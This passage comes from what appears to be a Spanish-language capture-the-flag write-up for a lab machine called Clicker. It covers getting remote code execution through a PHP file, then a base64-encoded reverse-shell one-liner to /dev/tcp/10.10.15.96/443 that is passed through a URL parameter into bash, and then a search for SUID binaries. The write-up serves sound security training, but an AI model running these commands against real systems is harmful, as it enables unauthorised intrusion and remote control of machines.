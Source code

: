 Podemos ver que se puso en formato PHP

![](/assets/img/clicker/3.png)

Y al ingresar a la URL, veremos que hecmos conseguido RCE:

![](/assets/img/clicker/4.png)

Ahora solo queda enviarnos  una reverse shell

```ruby
echo "sh -i >& /dev/tcp/10.10.15.96/443 0>&1" | base64
```

Y en la URL ponemos: ?comando=echo "<base64>" | base64 -d | bash

Y nos deberia de llegar

![](/assets/img/clicker/5.png)

## www-data -> jack

Si buscamos por binarios SUID, podemos ver el **/opt/manage/execute_query** 

```ruby
find / -perm -u=s -type f 2>/dev/null
/opt/manage/execute_query
```
